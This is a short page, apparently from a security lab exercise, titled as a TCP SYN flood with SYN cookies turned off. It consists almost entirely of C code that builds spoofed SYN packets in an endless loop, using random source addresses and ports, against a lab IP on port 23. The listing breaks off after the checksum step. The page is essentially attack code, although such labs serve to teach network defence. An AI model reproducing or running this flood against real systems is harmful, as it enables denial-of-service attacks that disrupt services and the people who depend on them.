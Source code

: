 # c tcp synflood

## 关闭SYN cookie

```C
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

#include "myheader.h"

#define DEST_IP    "172.17.0.3"
#define DEST_PORT  23  // Attack the web server
#define PACKET_LEN 1500

unsigned short calculate_tcp_checksum(struct ipheader *ip);
void send_raw_ip_packet(struct ipheader* ip);


/******************************************************************
  Spoof a TCP SYN packet.
*******************************************************************/
int main() {
   char buffer[PACKET_LEN];
   struct ipheader *ip = (struct ipheader *) buffer;
   struct tcpheader *tcp = (struct tcpheader *) (buffer +
                                   sizeof(struct ipheader));

   srand(time(0)); // Initialize the seed for random # generation.
   while (1) {
     memset(buffer, 0, PACKET_LEN);
     /*********************************************************
        Step 1: Fill in the TCP header.
     ********************************************************/
     tcp->tcp_sport = rand(); // Use random source port
     tcp->tcp_dport = htons(DEST_PORT);
     tcp->tcp_seq   = rand(); // Use random sequence #
     tcp->tcp_offx2 = 0x50;
     tcp->tcp_flags = TH_SYN; // Enable the SYN bit
     tcp->tcp_win   = htons(20000);
     tcp->tcp_sum   = 0;

     /*********************************************************
        Step 2: Fill in the IP header.
     ********************************************************/
     ip->iph_ver = 4;   // Version (IPV4)
     ip->iph_ihl = 5;   // Header length
     ip->iph_ttl = 50;  // Time to live
     ip->iph_sourceip.s_addr = rand(); // Use a random IP address
     ip->iph_destip.s_addr = inet_addr(DEST_IP);
     ip->iph_protocol = IPPROTO_TCP; // The value is 6.
     ip->iph_len = htons(sizeof(struct ipheader) +
                         sizeof(struct tcpheader));

     // Calculate tcp checksum
     tcp->tcp_sum = calculate_tcp_checksum(ip);

```